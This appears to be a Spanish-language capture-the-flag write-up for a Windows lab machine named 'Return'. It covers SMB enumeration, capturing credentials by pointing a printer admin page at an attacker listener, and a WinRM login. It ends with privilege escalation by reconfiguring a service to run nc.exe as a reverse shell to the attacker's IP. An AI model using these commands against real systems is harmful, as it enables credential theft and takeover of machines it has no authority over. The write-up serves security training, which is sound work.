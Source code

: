 ```yaml
---
title: "Return"
description: "Return"
pubDate: 2025-05-20
---
```


https://www.youtube.com/watch?v=5QC5lshrDDo

# Fase de reconocimiento

Windows
Puertos abiertos:
80
445 SMB
5985 WinRemoteManagament

## SMB

````
crackmapexec smb <ip>
````

Listar recursos compartidos

````
smbclient -L <ip> -N
````

# Fase de ataque

## Web

En la web encontramos una administración de impresora
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240512185134.png)
Cambiamos la address por una nuestra
Nos ponemos en escucha

````
nc -nlvp 389
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240512185232.png)
Nos reporta el usuario y contraseña
Comprobamos que sean validos:

````
crackmapexec smb <ip> -u '<user>' -p '<passwd>'
````

Comprobamos que este en el grupo de winrm para conectarse

````
crackmapexec winrm <ip> -u '<user>' -p '<passwd>'
````

Nos conectamos

````
evil-winrm -i <ip> -u '<user>' -p '<passwd>'
````

\[-\] ==pwned!==

# Privilege Escalation

Ver privilegios

````
whoami /priv
````

Ver en que grupo estamos

````
net user <user>
````

Podemos correr y parar servicios

````
services
````

## Modificar servicio

1. Nos copiamos el nc.exe a la maquina victima

````
uplaod <ruta nc.exe>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240512190603.png)
2. Modificamos el servicio

````
sc.exe config <nombre> binPath="<ruta nc.exe> -e cmd <ipa> 443"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240512190905.png)
3. Nos ponemos en escucha

````
nc -nlvp 443
````

4. Paramos y arrancamos el servico

````
sc.exe stop <nombre>
````

````
sc.exe start <nombre>
````

\[+\] ==pwned!==
